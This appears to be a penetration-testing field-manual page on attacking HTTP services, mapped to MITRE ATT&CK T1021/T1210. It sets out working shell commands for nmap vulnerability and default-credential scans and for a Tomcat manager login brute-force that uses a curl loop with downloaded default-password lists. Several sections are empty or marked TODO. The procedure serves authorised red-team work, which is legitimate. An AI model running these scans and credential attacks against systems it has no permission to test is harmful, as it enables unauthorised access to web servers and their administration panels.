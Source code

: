 
# Flawed HTTP Remote Services

## Overview

MITRE ATT&CK mapping: T1021 / T1210

## Procedures

### Additional tools

 - [gnmap2urls.sh](scripts/gnmap2urls.sh)
 - [http-fingerprints-min.lua](scripts/http-fingerprints-min.lua)
 - [nikto vuln db file](https://raw.githubusercontent.com/sullo/nikto/master/program/databases/db_tests)

### Web vulnerability discovery

Prepare target list:

    # transform URL list to hosts (http-ips.txt) and ports (http-ports.txt) lists:
    cat urls-all.txt | tee >(awk -F '//' '{print $2}' | cut -d':' -f1 > http-ips.txt) >(awk -F '//' '{print $2}' | awk -F':' '{print $2}' | grep . | sort -u > http-ports.txt)

Using Nikto DB:

    # get nikto vuln db file
    wget https://raw.githubusercontent.com/sullo/nikto/master/program/databases/db_tests -O nikto_db_tests

    # get minimal http-enum script
    wget https://raw.githubusercontent.com/mzet-/z-field-manual/master/scripts/http-fingerprints-min.lua

    # conduct http vuln scan on all previously identified http-based services:
    nmap -n -PN -sS -sV --version-intensity 2 --script=http-enum --script-args=http-enum.fingerprintfile=./http-fingerprints-min.lua,http-fingerprints.nikto-db-path=./nikto_db_tests -T4 -iL http-ips.txt -p80,443,$(cat http-ports.txt | tr '\n' ',') -oA vscans/http-nikto-vuln-scan

Using http-vulners-regex:

```
# get latest http vulners and regex matches:
wget https://raw.githubusercontent.com/vulnersCom/nmap-vulners/master/http-vulners-regex.nse
wget https://raw.githubusercontent.com/vulnersCom/nmap-vulners/master/http-vulners-regex.json
wget https://raw.githubusercontent.com/vulnersCom/nmap-vulners/master/http-vulners-paths.txt

# TODO: launch
mv http-vulners-regex.nse res/
cd /usr/share/nmap/scripts
ln -s "$HOME/res/http-vulners-regex.nse"
nmap --script-updatedb

# -sV is required as Nmap need to determine if provided ports different then 80,443 are really http-based services
# other alternative would be to change portrule to match particular port on fly (as here: https://github.com/InfosecMatter/default-http-login-hunter)
# http-vulners-regex - constructs CPEs for http-based services
# vulners - queries API at https://vulners.com for known CVEs for given CPEs
nmap -n -PN -sS -sV --open --script=http-vulners-regex,vulners -p$(cat http-ports.txt | tr '\n' ',') -iL http-ips.txt -oA vscans/http-vulners-regex
```

[snallygaster](https://github.com/hannob/snallygaster) (run in parallel)

```
TODO
```

### Web-based authentication panels

Default credentials: Nmap

```
# get Nmap's aternative default account db :
wget https://raw.githubusercontent.com/nnposter/nndefaccts/master/http-default-accounts-fingerprints-nndefaccts.lua

# transform URL list to hosts (http-ips.txt) and ports (http-ports.txt) lists:
cat urls-all.txt | tee >(awk -F '//' '{print $2}' | cut -d':' -f1 > http-ips.txt) >(awk -F '//' '{print $2}' | awk -F':' '{print $2}' | grep . | sort -u > http-ports.txt)

# change portrule in http-default-accounts script to contain all ports seen in http-ports.txt:
cp /usr/share/nmap/scripts/http-default-accounts.nse ./http-default-accounts-mod.nse
echo "portrule = shortport.portnumber({$(cat http-ports.txt | tr '\n' ',')})"

# check for default web-based accounts:
nmap -n -PN -sS -sV --open --version-intensity 2 --script=./http-default-accounts-mod.nse --script-args http-default-accounts.fingerprintfile=./http-default-accounts-fingerprints-nndefaccts.lua -T4 -iL http-ips.txt -p$(cat http-ports.txt | tr '\n' ',') -oA vscans/http-def-accounts
```

Default credentials: changeme

```
# note: when providing file to 'changeme' full path is required:
changeme '/home/pt/httprobe-all.txt' -v -t 20 | tee changeme-http-urls.out
changeme '/home/pt/vscans/nmap.xml' --category http -v -t 20 | tee changeme-http-urls.out
```

Weak/simple credentials:

```
TODO
```


### Apache Tomcat: default/weak credentials

Use Metasploit module:

```
auxiliary/scanner/http/tomcat_mgr_login
```

OR (if many different ports are used), prepare target list:

```
Prereq: Nmap scan results imported to msf

msf> services -S Coyote -c port -o /tmp/tomcat.csv
cat /tmp/tomcat.csv | tr ',' ':' | tr -d '"' | grep -v 'host' | ./httpx -silent | while read l; do echo "$l/manager/html"; done | tee tomcat-urls.txt
```

Prepare creds list:

```
# Set 1:
wget https://raw.githubusercontent.com/wintrmvte/medusa_combo_files/master/tomcat_default_79.txt
cat tomcat_default_79.txt | cut -d: -f2,3 > PAYLOADS/tomcat-defaults-1.txt

# Set 2:
$ wget https://raw.githubusercontent.com/netbiosX/Default-Credentials/master/Apache-Tomcat-Default-Passwords.mdown
$ cat Apache-Tomcat-Default-Passwords.mdown | tr -d ' ' | awk -F'|' '{print $2":"$3}' > PAYLOADS/tomcat-defaults-2.txt
```

Launch:

```
while read line; do echo -n "$line : "; for i in $(cat PAYLOADS/tomcat-defaults-1.txt); do RES=$(curl -k -H "Authorization: Basic $(echo -n "$i" | base64)" -s -o /dev/null -w "%{http_code}" --url "$line"); echo "$i:: $RES"; [ "$RES" -eq 200 ] && break; done; done < tomcat-urls.txt | tee tomcats-results-1.txt
```

### Wordpress

### Atlassian Confluence

## OPSEC considerations

## Counter-countermeasures
